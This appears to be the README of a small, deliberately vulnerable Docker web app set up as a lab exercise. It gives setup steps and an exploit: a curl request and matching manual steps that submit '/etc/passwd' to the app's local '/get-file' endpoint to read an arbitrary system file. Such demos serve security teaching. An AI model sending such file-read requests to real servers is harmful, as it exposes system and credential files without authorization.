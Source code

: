 ## Setup 
1. git clone https://github.com/wbowm15/ubiquitous-eureka.git
2. cd ubiquitous-eureka/  
3. docker build -t server . 
4. docker run -p5000:5000 server

## Curl Exploit Command 
curl 'http://127.0.0.1:5000/get-file' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'Origin: http://127.0.0.1:5000' \
  -H 'Referer: http://127.0.0.1:5000/' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36' \
  -H 'sec-ch-ua: "Google Chrome";v="125", "Chromium";v="125", "Not.A/Brand";v="24"' \
  -H 'sec-ch-ua-mobile: ?0' \
  -H 'sec-ch-ua-platform: "Windows"' \
  --data-raw 'filename=%2Fetc%2Fpasswd'

  ## Manual Exploit Steps 
  1. Enter /etc/passwd or another file in the "Enter a filename to fetch:" form and hit query
